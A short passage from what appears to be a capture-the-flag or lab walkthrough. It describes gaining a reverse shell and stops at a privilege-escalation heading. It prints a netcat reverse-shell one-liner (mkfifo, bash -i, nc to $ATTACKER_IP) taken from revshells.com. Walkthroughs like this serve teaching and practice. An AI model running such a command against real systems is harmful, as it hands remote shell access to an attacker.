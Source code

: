 ![](img/cc-admin.png)

First, we set up our listener and then execute the payload to gain a reverse shell. We will be using a rather simple reverse shell from: [revshells.com](https://www.revshells.com/):

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $ATTACKER_IP 4343 >/tmp/f
```

![](img/cc-shell.png)

Privilege Escalation
====================

System user access
------------------

### Enumeration
